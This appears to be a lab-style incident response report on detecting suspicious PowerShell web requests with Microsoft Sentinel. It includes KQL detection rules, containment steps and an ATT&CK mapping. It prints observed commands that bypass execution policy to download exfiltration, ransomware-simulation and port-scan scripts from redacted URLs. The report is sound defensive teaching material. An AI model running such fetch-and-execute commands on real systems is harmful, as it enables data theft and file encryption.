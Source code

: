 🛡️ Incident Response Report – Haider Naqvi

Scenario: PowerShell Suspicious Web RequestFramework: NIST 800-61 (Computer Security Incident Handling Lifecycle)


## ⚙️ Step 1: Preparation

- Microsoft Sentinel and Microsoft Defender for Endpoint (MDE) were configured for log forwarding.
- DeviceProcessEvents logs were actively collected and ingested into Sentinel.
- Alert rule designed to detect PowerShell-based downloads using Invoke-WebRequest.
- Training provided to analysts on recognizing post-exploitation behavior.

Use Case Summary:
Sometimes when a bad actor has access to a system, they will attempt to download malicious payloads or tools directly from the internet to expand their control or establish persistence. This is often achieved using legitimate system utilities like PowerShell to blend in with normal activity. By leveraging commands such as Invoke-WebRequest, they can download files or scripts from an external server and immediately execute them, bypassing traditional defenses or detection mechanisms. This tactic is a hallmark of post-exploitation activity, enabling them to deploy malware, exfiltrate data, or establish communication channels with a command-and-control (C2) server. Detecting this behavior is critical to identifying and disrupting an ongoing attack.

## 🔎 Step 2: Detection and Analysis

Analytics Rule Configuration:
- Rule Name: Haider - PowerShell Suspicious Web Request
- Description: Detects usage of PowerShell to download files from the internet.
- Severity: Medium
- Run Frequency: Every 4 hours
- Lookup Period: Last 24 hours
- Entity Mapping:
  - Account: AccountName
  - Host: DeviceName
  - Process: ProcessCommandLine
- Incident Creation: Enabled
- Group all alerts into one incident per 24 hours: Enabled
- Stop query after alert: Enabled

📍 Initial KQL Query

let TargetDevice = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetDevice
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-webrequest"



📍 Alert Rule KQL Query

let TargetHostname = "windows-target-1";
DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where InitiatingProcessCommandLine contains "Invoke-WebRequest"
| order by TimeGenerated

📝 Observed PowerShell Commands (Line by Line):

powershell.exe -ExecutionPolicy Bypass -Command \
    Invoke-WebRequest -Uri 'https://.../exfiltratedata.ps1' \
    -OutFile 'C:\programdata\exfiltratedata.ps1'

powershell.exe -ExecutionPolicy Bypass -Command \
    Invoke-WebRequest -Uri 'https://.../eicar.ps1' \
    -OutFile 'C:\programdata\eicar.ps1'

powershell.exe -ExecutionPolicy Bypass -Command \
    Invoke-WebRequest -Uri 'https://.../pwncrypt.ps1' \
    -OutFile 'C:\programdata\pwncrypt.ps1'

powershell.exe -ExecutionPolicy Bypass -Command \
    Invoke-WebRequest -Uri 'https://.../portscan.ps1' \
    -OutFile 'C:\programdata\portscan.ps1'

🧑 User Statement:
User stated they tried to install a free utility tool and a black screen appeared briefly, then nothing happened.

✅ Confirm Script Execution - KQL Query

let TargetHostname = "windows-target-1";
let ScriptNames = dynamic([
"eicar.ps1",
"exfiltratedata.ps1",
"portscan.ps1",
"pwncrypt.ps1"
]);

DeviceProcessEvents
| where DeviceName == TargetHostname
| where FileName == "powershell.exe"
| where ProcessCommandLine contains "-File"
| where ProcessCommandLine has_any (ScriptNames)
| order by TimeGenerated
| project TimeGenerated, AccountName, DeviceName, FileName, ProcessCommandLine



🔬 Script Analysis Summary:

exfiltratedata.ps1 → Attempts to send files to an external destination.

eicar.ps1 → EICAR test script used to trigger antivirus detection.

pwncrypt.ps1 → Encrypts files (simulated ransomware behavior).

portscan.ps1 → Scans local and network ports (reconnaissance).



🛠️ Step 3: Containment, Eradication, and Recovery

Containment Actions:

Isolated the affected VM using Microsoft Defender for Endpoint.

Ran a full anti-malware scan.

Verified no persistence mechanisms or lateral movement.

Removed machine from isolation and restored to operational status.

Execution Findings:

exfiltratedata.ps1 and portscan.ps1 were executed by local user account.

exfiltratedata.ps1 attempted data transfer.

portscan.ps1 performed local port scanning.



📘 Step 4: Post-Incident Activities

Lessons Learned:

Affected user enrolled in enhanced cybersecurity awareness training.

KnowBe4 awareness campaign frequency increased.

PowerShell restricted to admin accounts only.

Sentinel detection logic updated for better script activity detection.

Closure:

Incident marked as "True Positive".

Case notes and timeline finalized.

Incident closed successfully in Sentinel.



🧩 MITRE ATT&CK Mapping

Technique ID

Name

Description

T1059.001

PowerShell

Abuse of PowerShell to execute downloaded scripts

T1105

Ingress Tool Transfer

Remote tools/scripts downloaded to endpoint

T1071.001

Application Layer Protocol: Web

HTTP/HTTPS used for C2 and data transfer

T1562.001

Impair Defenses: ExecutionPolicy Bypass

Disable script protections via policy bypass



